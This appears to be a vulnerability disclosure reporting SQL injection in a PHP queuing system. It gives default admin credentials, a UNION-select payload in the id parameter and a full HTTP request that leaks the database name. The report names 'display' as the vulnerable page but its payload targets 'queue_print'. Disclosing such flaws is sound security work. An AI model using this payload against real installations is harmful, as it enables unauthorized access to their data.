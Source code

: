 # Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

BUG_Author: Grace

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/index.php?page=display&id=

Vulnerability location: /queuing/index.php?page=display&id=, id

dbname =queuing_db

[+] Payload: /queuing/index.php?page=queue_print&id=-1%20union%20select%201,database(),3,4,5,6,7,8,9--+ // Leak place ---> id

```sql
GET /queuing/index.php?page=queue_print&id=-1%20union%20select%201,database(),3,4,5,6,7,8,9--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/200096558-bc446ad7-5a42-493c-aa3d-415f5e6208b5.png)
